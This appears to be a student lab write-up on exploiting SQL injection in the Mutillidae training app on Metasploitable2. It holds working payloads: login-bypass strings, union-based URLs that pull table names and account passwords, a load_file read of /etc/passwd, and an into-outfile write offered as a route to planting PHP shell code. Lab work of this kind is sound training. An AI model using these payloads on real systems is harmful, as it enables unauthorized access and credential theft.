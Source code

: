 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/850a8d55-d8eb-419c-838b-0814d724b1a1)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/704c742c-ccf7-4303-846e-b6c3b6526d8f)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/5f7bea7b-845a-485f-8f53-b110ca38cdcd)
Click on the menu Login/Register and register for an account 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/810a3311-b71a-4832-920f-6ce1d2300e17)
Click on the link “Please register here”
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b4b277ec-a4fd-4d2d-88a0-53d4de2980eb)
Click on “Create Account” to display the following page:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/20312b73-35bd-4e94-82ec-b6ab47ec7fcb)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/94a3f1d1-f683-45dc-8247-197743109158)
Click “Login”. The logged in page will show as below:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/27a9585a-63d6-4a90-bb50-f040a262592b)
login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b38d644b-287b-4972-81a4-0ea86647f5b2)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8fbe7398-b224-4938-9c17-60565908de7b)
# Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below: 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/f2329720-887c-48f7-be98-f5a6479b6f22)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/db6e5ac7-9aab-49d9-93b5-65039fe10212)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9737f980-188f-4525-9648-b16f9335be84)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9eaa6a6e-ff20-418b-9d2f-fecdddcb2b7c)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/28c0f8e8-0ec0-4425-93fa-94781387e446)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8442469e-362d-48a4-915c-d0aebe490064)
ince we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8c76c295-b529-4dfb-99db-7e9248d6884d)
After adding the order by 6 into the existing url , the following error statement will be obtained: 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9c0f38a1-ff94-4959-bc46-490135231865)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/5165e616-74e9-4847-b214-bd14bf5ea38c)
As it is having 5 columns the query worked fine and it provides the correct result.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/ba6bfd81-ce12-4bb3-b921-72a478ab19d1)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5) 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/c64d8e45-73c6-43df-a6df-f3323af48303)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/031507bd-6870-480a-b58e-9e03968162a3)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/330fc46d-5a6f-437c-ad7d-8a086ae71211)
 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details image The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8f114f64-f518-4c51-9305-b441bbf19733)

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/729f4718-1446-458f-bcf6-e8652e76af69)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b353dab2-5379-452d-83df-34efe160691f)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/09b8b9e8-679f-46cd-94be-adc8b53bd5a5)


Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/ad76ef59-c211-4a3d-b68a-c589586cce08)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
